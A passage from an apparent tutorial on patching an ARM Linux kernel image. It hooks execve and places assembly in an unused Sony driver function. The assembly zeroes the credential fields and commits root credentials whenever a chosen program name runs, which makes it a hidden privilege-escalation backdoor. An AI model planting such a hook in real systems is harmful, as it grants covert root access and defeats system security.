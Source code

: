 
This allows us to now open the ELF file with Python, look up symbol offsets, and then use those to patch the kernel.

The next thing to do is deciding what we want to hook. I decided I wanted to hook `execve` so that I could add a check whenever something is run.

Now we need to find a location to write our code. We don't want to add any space to the end of the file, and we want the code to be located in the executable section. We should look around to find any unused code and just try to reclaim that space.

After looking through the symbols for a while, I spotted the following: `sony_probe`. This strikes me as a bit strange. A `sony` specific driver in the kernel. Turns out it's part of a driver for a PS2 HID. Well I don't know about you, but I think that's a great location. It's a large function, it is unlikely to be used in an embedded device (or QEMU system), and so that's where we'll place our code.

We'll use Keystone engine to convert our assembly into bytecode.

One of the things I like to do is a simple:
```asm
// We protect ourselves and just return from this function if it is called
PUSH    {lr}
POP     {pc}
```

This is placed at the start of the function. It is a safeguard in the case that this function is ever called, it will just immediately return.

We need to write the rest of our code.
```asm
    // Entry for our code, this is where we'll have to jump to.
    // Save off some registers to restore later...
    PUSH    {{r4, r5, r6, r7, r8, r9, r10, lr}}

    // Do the call to getname since we're hijacking that bl 
    BL   #{int_to_32bit_hex(-(BASE_CODE-addr_getname))}

    // R0 is our return, we should store that somewhere
    MOV  r10, r0
    LDR  r6, ={string_offset+BASE_ADDR:#x}
    ADD  r0, r0, 2  //Remove first two chars, "./" from the command...

    start:
        LDRB r2, [r0], #1  // Load a byte from the first string into r2 and increment r0
        LDRB r3, [r6], #1  // Load a byte from the second string into r3 and increment r1
        CMP r2, r3         // Compare the two bytes
        BNE end            // Branch to not_equal if they are not the same
        CMP r2, #0         // Check if we've hit the null terminator
        BNE start          // If not, loop back and continue comparing
        // If we get here, strings are equal
    strings_equal:
        // Handle the strings being equal
        MOV r0, #0           // We must call prepare_creds with a NULL
        BL   #{int_to_32bit_hex(-(BASE_CODE-addr_prepare_creds))}
        MOV r1, #0           // We want to load zero into r1
        STR r1, [r0, #4]     // Write zero to offset 4 into the cred struct
        STR r1, [r0, #8]     // ...
        STR r1, [r0, #12]    // ...
        STR r1, [r0, #16]    // ...
        STR r1, [r0, #20]    // ...
        STR r1, [r0, #24]    // ...
        STR r1, [r0, #28]    // ...
        STR r1, [r0, #32]    // Write zero to offset 32 into the cred struct
        BL   #{int_to_32bit_hex(-(BASE_CODE-addr_commit_creds))}

    end:
    // Restore the result of getname so we can return that
```